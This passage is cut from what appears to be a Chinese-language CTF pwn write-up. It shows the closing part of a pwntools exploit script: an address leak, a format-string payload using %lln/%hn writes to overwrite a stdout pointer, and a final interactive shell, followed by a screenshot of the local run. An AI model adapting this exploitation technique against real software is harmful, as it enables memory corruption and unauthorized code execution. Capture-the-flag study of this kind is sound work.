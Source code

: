```python
    io.send(payload)


io.recvuntil('>>')
io.sendline('1')

io.send(p64(stderr_addr+1))
#io.send(p64(stderr_addr))
#leak = io.recv(1)

leak = (ord(io.recv(1))<<8) + 0xc0
#leak = ord('\xe5')<<8 + 0x40
success("leak: "+str(leak))

payload = "%7$lln" + "%" + str(leak) + "c" + "%11$hn"
payload = payload.ljust(24,"a")
payload = bytes(payload,'ascii')
print(str(payload))
payload = payload + p64(stdout_addr)
io.recvuntil('>>')
io.sendline('2')
io.send(payload)

io.sendline('3')
io.send('\x00'*0x40)

io.interactive()
```

本地的效果

![image-20210420233900176](https://static.hack1s.fun/images/2021/04/20/image-20210420233900176.png)